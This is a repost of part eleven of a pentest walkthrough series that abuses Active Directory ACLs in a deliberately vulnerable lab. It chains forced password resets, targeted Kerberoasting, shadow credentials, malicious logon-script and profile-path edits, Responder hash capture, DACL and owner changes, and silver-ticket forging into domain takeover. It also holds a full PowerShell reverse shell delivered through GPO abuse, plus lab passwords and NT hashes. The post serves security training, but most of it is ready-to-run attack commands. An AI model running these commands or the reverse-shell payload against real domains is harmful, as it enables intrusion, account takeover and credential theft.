> [!NOTE]
> Original post can be found here:
> https://mayfly277.github.io/posts/GOADv2-pwning-part11/

On the previous post we did some exploitation by abusing delegation. On this blog post, we will have fun with ACL in the lab.

In active directory, objects right are called Access Control Entries (ACE), a list of ACE is called Access Control List (ACL).

## Lab ACL update

> [!NOTE]
> Current version of the lab has it included


- Before starting this chapter, we will update the users and acl in the labs:
    
```
sudo docker run -ti --rm --network host -h goadansible -v $(pwd):/goad -w /goad/ansible goadansible ansible-playbook ad-data.yml<br>sudo docker run -ti --rm --network host -h goadansible -v $(pwd):/goad -w /goad/ansible goadansible ansible-playbook ad-acl.yml<br>sudo docker run -ti --rm --network host -h goadansible -v $(pwd):/goad -w /goad/ansible goadansible ansible-playbook ad-relations.yml<br>sudo docker run -ti --rm --network host -h goadansible -v $(pwd):/goad -w /goad/ansible goadansible ansible-playbook vulnerabilities.yml
```
    
- This will change a lot of relations in the lab, because when i initially created the acl i have set a lot of acl on the domain admins group. But the domain admin group is a protected group and those groups are protected by the admin SD protect mechanism.
- So when the lab is build all acl are ok, but one hour later, all the acl related to protected groups and their users are deleted.
- I also add some groups and a vulnerable gpo.
    
- List of protected groups in the active directory : [https://learn.microsoft.com/en-us/previous-versions/technet-magazine/ee361593(v=msdn.10)?redirectedfrom=MSDN](https://learn.microsoft.com/en-us/previous-versions/technet-magazine/ee361593\(v=msdn.10\)?redirectedfrom=MSDN)

> By default on Active Directory protected groups are reset every hours with the ACL values stored on “CN=AdminSDHolder,CN=System,DC=yourdc”  
> Protected groups and Associated users are affected
> 
> - Account Operators
> - Administrator
> - Administrators
> - Backup Operators
> - Domain Admins
> - Domain Controllers
> - Enterprise Admins
> - Krbtgt
> - Print Operators
> - Read-only Domain Controllers
> - Replicator
> - Schema Admins
> - Server Operators

- The new ACL overview in the lab is this one :
```
MATCH p=(u)-[r1]->(n) WHERE r1.isacl=true and not tolower(u.name) contains 'vagrant' and u.admincount=false and not tolower(u.name) contains 'key' RETURN p
```


## sevenkingdoms.local ACL

To start we will focus on the sevenkingdoms killchain of ACL by starting with tywin.lannister (password: powerkingftw135)

- The path here is :
    - Tywin -> Jaime : Change password user
    - Jaime -> Joffrey : Generic Write user
    - Joffrey -> Tyron : WriteDacl on user
    - Tyron -> small council : add member on group
    - Small council -> dragon stone : write owner group to group
    - dragonstone -> kingsguard : write owner to group
    - kingsguard -> stannis : Generic all on User
    - stannis -> kingslanding : Generic all on Computer

- Let’s try to do all the path from tywin to kingslanding domain controller :)

> Reminder : Abusing ACL make change on the targets. Be sure to you know what you are doing if you try to exploit it during an audit.

## ForceChangePassword on User (Tywin -> Jaime)

- This one should never be done in a pentest (unless the customer is ok with that). You don’t want to block a user during your audit.
    
- As tywin.lannister we will change jaime.lannister password
    
```
net rpc password jaime.lannister pasdebraspasdechocolat -U sevenkingdoms.local/tywin.lannister%powerkingftw135 -S kingslanding.sevenkingdoms.local
```

- We set the new jaime password.
- And verify the password is ok.

```
nxc smb 192.168.56.10 -u jaime.lannister -d sevenkingdoms.local -p pasdebraspasdechocolat
```

## GenericWrite on User (Jaime -> Joffrey)

- As we just set up jaime password we will now exploit the GenericWrite from Jaime to Joffrey

- This could be abuse with 3 different technics :
    - shadowCredentials (windows server 2016 or +)
    - targetKerberoasting (password should be weak enough to be cracked)
    - logonScript (this need a user connection and to be honest it never worked or unless with a script already inside sysvol)

### Target Kerberoasting

- First let’s do a target Kerberoasting, the principe is simple. Add an SPN to the user, ask for a tgs, remove the SPN on the user.
- And now we can crack the TGS just like a classic kerberoasting.
    
- Shutdown have done a tool which do all the work for you : [https://github.com/ShutdownRepo/targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast)
```
python3 targetedKerberoast.py -v -d sevenkingdoms.local -u jaime.lannister -p pasdebraspasdechocolat --request-user joffrey.baratheon
```


- And now just crack the hash
```
hashcat -m 13100 -a 0 joffrey.hash rockyou.txt --force
```


### Shadow Credentials

This was already done previously in this blog, one of the fastest exploitation is with certipy:

```
certipy-ad shadow auto -u jaime.lannister@sevenkingdoms.local -p 'pasdebraspasdechocolat' -account 'joffrey.baratheon'
```

### Logon script

- To show the scriptpath ldap value instead of ldapsearch we can use the tool [ldeep](https://github.com/franc-pentest/ldeep)

```
ldeep ldap -u jaime.lannister -p 'pasdebraspasdechocolat' -d sevenkingdoms.local -s ldap://192.168.56.10 search '(sAMAccountName=joffrey.baratheon)' scriptpath
```

- We can change this value with the following script:

```
import ldap3
dn = "CN=joffrey.baratheon,OU=Crownlands,DC=sevenkingdoms,DC=local"<br>user = "sevenkingdoms.local\\jaime.lannister"
password = "pasdebraspasdechocolat"<br>server = ldap3.Server('kingslanding.sevenkingdoms.local')
ldap_con = ldap3.Connection(server = server, user = user, password = password, authentication = ldap3.NTLM)
ldap_con.bind()
ldap_con.modify(dn,{'scriptpath' : [(ldap3.MODIFY_REPLACE, '\\\\192.168.56.1\share\exploit.bat')]})
print(ldap_con.result)
ldap_con.unbind()
```

- but sadly this won’t work… :’( (if you know why please let me know, this seems to work only if the script is already located in sysvol)
    
- Another way to abuse the GenericWrite is by changing the profilePath and wait for a connection to get a NetNtlmv2 authentication and relay to another computer or crack it.
    
- Change the value of profilePath with the following script :
    
```
import ldap3<br>dn = "CN=joffrey.baratheon,OU=Crownlands,DC=sevenkingdoms,DC=local"
user = "sevenkingdoms.local\\jaime.lannister"
password = "pasdebraspasdechocolat"<br>server = ldap3.Server('kingslanding.sevenkingdoms.local')
ldap_con = ldap3.Connection(server = server, user = user, password = password, authentication = ldap3.NTLM)
ldap_con.bind()
ldap_con.modify(dn,{'profilePath' : [(ldap3.MODIFY_REPLACE, '\\\\192.168.56.1\share')]})
print(ldap_con.result)
ldap_con.unbind()
```


- Start responder and simulate joffrey connection by starting an RDP connection
```
responder -I vboxnet0<br>xfreerdp /d:sevenkingdoms.local /u:joffrey.baratheon /p:'1killerlion' /v:192.168.56.10 /size:80%  /cert-ignore
```

- And we get the NetNLMV2 hash of joffrey.baratheon and… kingslanding$ !

## WriteDacl on User (Joffrey -> Tyron)

- To exploit writeDacl from Joffrey to Tyron we can use acledit.py
    
- First we will clone the impacket’s [fork](https://github.com/ThePorgs/impacket.git) created by shutdown (@_nwodtuhs) to get the last PR with dacledit

> [!NOTE] 
> This is not needed as dacledit is now part of impacket

```
git clone https://github.com/ThePorgs/impacket.git
cd impacket
python3 setup.py install
```


- Now we can use [dacledit.py](https://www.thehacker.recipes/ad/movement/dacl/grant-rights)
    
- First let’s look at joffrey’s right on tyron :
    

```
impacket-dacledit -action 'read' -principal joffrey.baratheon -target 'tyron.lannister' 'sevenkingdoms.local'/'joffrey.baratheon':'1killerlion'
```


- Ok now change the permission to “FullControl” and see the modification

```
impacket-dacledit -action 'write' -rights 'FullControl' -principal joffrey.baratheon  -target 'tyron.lannister' 'sevenkingdoms.local'/'joffrey.baratheon':'1killerlion'
```


- Ok now we can :
    - change tyron password
    - do a target kerberoasting
    - do a shadow credentials
- Let’s just use shadowcredentials :
```
certipy-ad shadow auto -u joffrey.baratheon@sevenkingdoms.local -p '1killerlion' -account 'tyron.lannister'
```



## Add self on Group (Tyron -> Small Council)

- We now got tyron so we can add us into the small council group

- First find the distinguished name
```
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://192.168.56.10 search '(sAMAccountName=tyron.lannister)' distinguishedName
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://192.168.56.10 search '(sAMAccountName=Small Council)' distinguishedName
```


- Add tyron to Small Council
```
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://192.168.56.10 add_to_group "CN=tyron.lannister,OU=Westerlands,DC=sevenkingdoms,DC=local" "CN=Small Council,OU=Crownlands,DC=sevenkingdoms,DC=local"
```

- See the result
```
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://192.168.56.10 membersof 'Small Council'
```



## AddMember on Group (Small Council -> dragonstone)

- Now as tyron we are in the small council, so we can add a member to dragonstone’s group.
- So we just add tyron just like we did before
```
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://192.168.56.10 add_to_group "CN=tyron.lannister,OU=Westerlands,DC=sevenkingdoms,DC=local" "CN=DragonStone,OU=Crownlands,DC=sevenkingdoms,DC=local"
```


## WriteOwner on Group (dragonstone -> kingsguard)

- Now with the writeOwner privilege we can change the owner of kingsguard to own the group

- Just like before we will use the impacket [fork](https://github.com/ThePorgs/impacket)
```
impacket-owneredit -action read -target 'kingsguard' -hashes ':b3b3717f7d51b37fb325f7e7d048e998' sevenkingdoms.local/tyron.lannister
impacket-owneredit -action write -new-owner 'tyron.lannister' -target 'kingsguard' -hashes ':b3b3717f7d51b37fb325f7e7d048e998' sevenkingdoms.local/tyron.lannister
```




- And the owner of kingsguard group is now tyron.lannister
- As owner of the group we can now change the acl and give us GenericAll on the group
```
impacket-dacledit -action 'write' -rights 'FullControl' -principal tyron.lannister  -target 'kingsguard' 'sevenkingdoms.local'/'tyron.lannister' -hashes ':b3b3717f7d51b37fb325f7e7d048e998'
```



- With GenericAll now we can add tyron to the kingsguard group
```
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://192.168.56.10 add_to_group "CN=tyron.lannister,OU=Westerlands,DC=sevenkingdoms,DC=local" "CN=kingsguard,OU=Crownlands,DC=sevenkingdoms,DC=local"
```

## Generic all on user (kingsguard -> stannis)

- Now tyron is in kingsguard so we can take the control of stannis with the genericAll on stannis

- let’s change stannis password with ldeep
```
net rpc password stannis.baratheon 'Drag0nst0ne' --pw-nt-hash -U sevenkingdoms.local/tyron.lannister%b3b3717f7d51b37fb325f7e7d048e998 -S kingslanding.sevenkingdoms.local
```



- We will set the password `Drag0nst0ne` (i know it is the same as before but i didn’t want to change the screenshots in the next part :p )

## GenericAll on Computer (Stannis -> kingslanding)

- Now we own stannis, let’s finish the domain with the generic Write on the DC

- We already done that on the previous chapter. One way to abuse of this permission is by using Resource Based Constrained Delegation ([Goad pwning part10](https://mayfly277.github.io/posts/GOADv2-pwning-part10/))
    
- But what if you can’t add a computer in the domain (more and more customers disable the ability for a simple user to add computer to the domains and this is a good practice from a security point of view), you can do a shadow credentials attack on the computer.
    
- So if ADCS is enabled on the domain, and we got write privilege on msDS-KeyCredentialLink, we can do the shadow credentials attack to get a direct access on the target account. (just like what we did in [Goad pwning part5](https://mayfly277.github.io/posts/GOADv2-pwning-part5/))
    
- Shadow credentials is now include with certipy (this attack can also be done with [pywisker](https://github.com/ShutdownRepo/pywhisker) )
    
```
certipy-ad shadow auto -u stannis.baratheon@sevenkingdoms.local -p 'Drag0nst0ne' -account 'kingslanding$'
```



- Now we got the tgt and the NT hash of kingslanding$
- Obviously we can do a dcsync because kingslanding is a DC, but instead let’s try to directly get a shell
    
- To do that the easiest way is using s4u2self abuse or create a silver ticket

### machine account to administrator shell

#### s4u2self abuse

- s4u2self abuse : we ask for a TGS as the Administrator domain user

```
export KRB5CCNAME=/workspace/acl/kingslanding.ccache
getST.py -self -impersonate "Administrator" -altservice "cifs/kingslanding.sevenkingdoms.local" -k -no-pass -dc-ip 192.168.56.10 "sevenkingdoms.local"/'kingslanding$'
```

- And than we use that ticket to connect as administrator

```
export KRB5CCNAME=/workspace/acl/Administrator@cifs_kingslanding.sevenkingdoms.local@SEVENKINGDOMS.LOCAL.ccache
wmiexec.py -k -no-pass sevenkingdoms.local/administrator@kingslanding.sevenkingdoms.local
```

#### Silver ticket
- Another way to get a shell is by creating a silver ticket :
    
- Find the domain SID:
    
```
impacket-lookupsid -hashes ':33a43e326dad53a516dc06393281d2cc' 'sevenkingdoms.local'/'kingslanding$'@kingslanding.sevenkingdoms.local 0
```



- Create the silver ticket:
```
impacket-ticketer -nthash '33a43e326dad53a516dc06393281d2cc' -domain-sid 'S-1-5-21-1409754491-4246775990-3914137275' -domain sevenkingdoms.local -spn cifs/kingslanding.sevenkingdoms.local Administrator
```


- And use it :
```
export KRB5CCNAME=/workspace/acl/Administrator.ccache
wmiexec.py -k -no-pass sevenkingdoms.local/administrator@kingslanding.sevenkingdoms.local
```



Ok the fun with sevenkingdoms.local domain is over, now let’s try some acl in the other domains.

## GPO abuse

>[!NOTE]
>I have to check out this part

- There is a GPO abuse on the north domain

- To abuse GPO we will use the project created by Hackndo : [pyGPOAbuse](https://github.com/Hackndo/pyGPOAbuse)
- The github readme file say : _“It will create an immediate scheduled task as SYSTEM on the remote computer for computer GPO, or as logged in user for user GPO.”_
```
git clone https://github.com/Hackndo/pyGPOAbuse.git
python3 -m virtualenv .venv<br>source .venv/bin/activate<br>python3 -m pip install -r requirements.txt
```

- We get the id from bloodhound and launch the exploit with :

```
python3 pygpoabuse.py north.sevenkingdoms.local/samwell.tarly:'Heartsbane' -gpo-id "6F8BD644-2C29-418C-93F1-FE926F91F6B4"
```

- If we take a look in the windows GUI we will see the schedule task created :

- If we wait few minutes or if we run a `gpudate /force` we will see the new local admin user

- Now let’s try to get a powershell reverseshell

```
python3 pygpoabuse.py north.sevenkingdoms.local/samwell.tarly:'Heartsbane' -gpo-id "6F8BD644-2C29-418C-93F1-FE926F91F6B4" -powershell -command "\$c = New-Object System.Net.Sockets.TCPClient('192.168.56.1',4444);\$s = \$c.GetStream();[byte[]]\$b = 0..65535\|%{0};while((\$i = \$s.Read(\$b, 0, \$b.Length)) -ne 0){    \$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$b,0, \$i);    \$sb = (iex \$d 2>&1 \| Out-String );    \$sb = ([text.encoding]::ASCII).GetBytes(\$sb + 'ps> ');    \$s.Write(\$sb,0,\$sb.Length);    \$s.Flush()};\$c.Close()" -taskname "MyTask" -description "don't worry"
```

- And a few moments later we get the powershell reverseshell

> pyGPOAbuse is changing the GPO without going back ! Do not use in production or at your own risk and do not forget to cleanup after

- Cleanup

## Read Laps password

- To read LAPS password, the easy way is with the cme module
```
nxc ldap 192.168.56.12 -d essos.local -u jorah.mormont -p 'H0nnor!' --module laps
```



- Works like a charm :)

## Resources:

- [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces)
- [https://www.thehacker.recipes/ad/movement/dacl](https://www.thehacker.recipes/ad/movement/dacl)
- [https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/acl-abuse](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/acl-abuse)
- [https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)

Next time, this will be the last blog post of the GOAD writeup series. And it will be on Trusts exploitation ([Goad pwning part12](https://mayfly277.github.io/posts/GOADv2-pwning-part12/))